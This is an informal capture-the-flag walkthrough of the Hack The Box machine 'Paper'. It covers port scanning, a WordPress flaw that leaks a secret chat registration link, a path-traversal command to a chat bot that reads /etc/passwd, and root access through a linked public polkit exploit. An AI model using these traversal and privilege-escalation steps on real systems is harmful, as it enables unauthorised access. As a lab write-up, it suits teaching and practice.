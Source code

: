 # Paper HTB Walkthrough

a nice htb box where we exploit wordpress, mess with LFI, and root using a polkit vuln. fun one!

# Introduction  

**Name:** Paper  
**Challenge type:** Boot2Root  
**Rated difficulty:** Easy  
**Box creator:** secnigma  

# Nmap Scan Results  

we will start by scanning open ports on the target machine, here's what nmap found:  

```
$ nmap -p- -sC -sV $IP -oN nmap/full-tcp.nmap
```

```
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.0 (protocol 2.0)

80/tcp  open  http     syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

443/tcp open  ssl/http syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
```

interesting, we've got SSH, HTTP and HTTPS open. nothing too unusual yet.  

# Enumerating SSH  

```
$ ssh root@10.10.11.143
root@10.10.11.143's password:
```

we can see here that password auth is enabled which isn't the safest. when we get credentials, let's come back here.  

# Enumerating HTTP (Port 80)  

after messing around for a bit, we can see a weird response header in burp suite:  

![weird header](../../images/htb/paper/weird-header.webp)  

interesting.. let's add that to our /etc/hosts file:  

```
$ echo "10.10.11.143    office.paper" | sudo tee -a /etc/hosts
```

# Enumerating office.paper  

now let's go to office.paper!! after looking at the source code, we can see this website is running wordpress:  

![wordpress version](../images/htb/paper/wordpress-version.webp)  

now that we know this is running wordpress, let's run wpscan:  

```
$ wpscan --url http://office.paper/
```

wpscan didn't show anything too interesting..  

after searching around, we find this website is vulnerable to `CVE-2019-17671`.  

going to `http://office.paper/?static=1` shows us some VERY juicy information:  

```
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

# Exploring the Chat System  

after going to the registration URL and signing up, we can message the recyclops bot:  

**testing file reading with recyclops bot**  

```
ax0ryn
8:23 PM
recyclops file ../../../../../../etc/passwd

recyclops
Bot
8:23 PM
<!=====Contents of file ../../../../../../etc/passwd=====>
root:x:0:0:root:/root:/bin/bash
[...]
dwight:x:1004:1004::/home/dwight:/bin/bash
<!=====End of file ../../../../../../etc/passwd=====>
```

we can use LFI to read `/etc/passwd`.  

after looking around a bit, we find credentials somewhere in `../hubot/` :)  

# Privilege Escalation  

after logging in with the found creds using SSH, we get user.txt!!  

after enumerating for a bit, i didn't find anything. so, i ran linpeas:  

linpeas showed the polkit version is vulnerable! found this exploit:  

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh  

after running the exploit a few times, we can log in with:  

```
su - secnigma
password: secnigmaftw
```

after that, we run:  

```
sudo bash
```

and then we're root!!  

# Conclusion  

this machine was quite fun!! i really liked chaining multiple things together to go somewhere!!  
